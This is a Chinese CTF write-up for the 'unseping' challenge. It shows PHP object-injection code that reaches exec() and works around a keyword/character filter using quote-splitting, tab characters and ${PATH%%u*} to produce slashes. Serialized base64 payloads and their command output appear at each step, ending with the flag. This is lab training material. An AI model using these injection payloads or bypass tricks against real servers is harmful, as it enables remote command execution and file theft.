

# unseping

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=3714626e-3a5b-11ed-abf3-fa163e4fa609)

就这？给我1周肯定做得出来。

```php
<?php
highlight_file(__FILE__);

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

$ctf=@$_POST['ctf'];
@unserialize(base64_decode($ctf));
?>
```

又是php。一看unserialize就知道是反序列化了。[__construct](https://www.php.net/manual/zh/language.oop5.decon.php)是php里的构造函数，功能很直白，就是给字段什么的赋值。__destruct（上面那篇文档也有提到）是析构函数，在脚本关闭时调用。这两个函数无论如何都会被调用，不用考虑那么多了。

[__wakeup](https://blog.spoock.com/2016/11/03/php-wakeup/)在对象反序列化时调用。这里的情况肯定会被调用，foreach遍历args数组，将值\$v放到waf中过滤后再传给键\$k。

ping使用exec直接把参数当做命令执行，输出命令的执行结果。__destruct调用了ping，因为if (in_array($this->method, array("ping")))要求method传入的必须是ping，那只有ping这一个选项了。[call_user_func_array](https://www.php.net/manual/zh/function.call-user-func-array.php)就是调用第一个参数的方法，把第二个参数作为调用方法的参数。这一段放一起看单纯就是调用ping而已。看了半天这题的难度在于绕waf。

waf的正则过滤了一些输出命令和文件名之类的，不是问题因为我们有经典的''绕过。最烦的是过滤了/符号，因此路径是个问题。先看看我们在哪，构造序列化字符串如下。

```php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}
$a=new ease('ping',array(urldecode('pwd')));
echo urlencode(base64_encode(serialize($a)));
?>
```

post传参输出出来的内容。

- ctf=Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czozOiJwd2QiO319
  > array(1) {[0]=>string(13) "/var/www/html"}

很普通的路径。看看这里有啥东西。

```php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}
$a=new ease('ping',array("l''s"));
echo urlencode(base64_encode(serialize($a)));
?>
```

- ctf=Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czo0OiJsJydzIjt9f
  > array(2) {[0]=>string(12) "flag_1s_here" [1]=>string(9) "index.php"}

看见flag了。用file看看是什么类型的文件，但是提示don't hack。检查才发现连空格也过滤了。尝试用%09+urldecode绕过。

```php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}
$a=new ease('ping',array(urldecode("file%09fl''ag_1s_here")));
echo urlencode(base64_encode(serialize($a)));
?>
```

- ctf=Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czoxOToiZmlsZQlmbCcnYWdfMXNfaGVyZSI7fX0
  > array(1) {[0]=>string(23) "flag_1s_here: directory"}

文件夹就麻烦了，这个路径怎么构造呢？还是要学点[shell](https://blog.csdn.net/qq_34246965/article/details/108085291)语法。

假如我们的payload是\${PATH\%\%u\*}，取出来的值是什么？[PATH](https://blog.csdn.net/weixin_44966641/article/details/119682388)是一个环境变量，默认值为/usr……一长串内容。\${PATH\%\%u\*}表示拿掉PATH变量值从u开始（包括u）往右全部的字符串。那还剩下什么？/。成功绕过。所以真正的flag叫什么名字呢？

```php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}
$a=new ease('ping',array(urldecode("l''s%09fl''ag_1s_here")));
echo urlencode(base64_encode(serialize($a)));
?>
```

- ctf=Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czoxOToibCcncwlmbCcnYWdfMXNfaGVyZSI7fX0
  > array(1) {[0]=>string(25) "flag_831b69012c67b35f.php"}

可以构建最终payload了。

```php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}
$a=new ease('ping',array(urldecode('ca\'\'t%09fl\'\'ag_1s_here${PATH%%u*}fl\'\'ag_831b69012c67b35f.p\'\'hp')));
echo urlencode(base64_encode(serialize($a))).'<br>';
?>
```



注意bp传post参只需要随意拦截一个包然后转换请求方法，post参数放在下面，不用跟get参数一样用?开头，但是两个参数之间用&相隔。

- ### Flag
  > cyberpeace{6d336fb3f9a51d0a8ad0908781d3fc0c}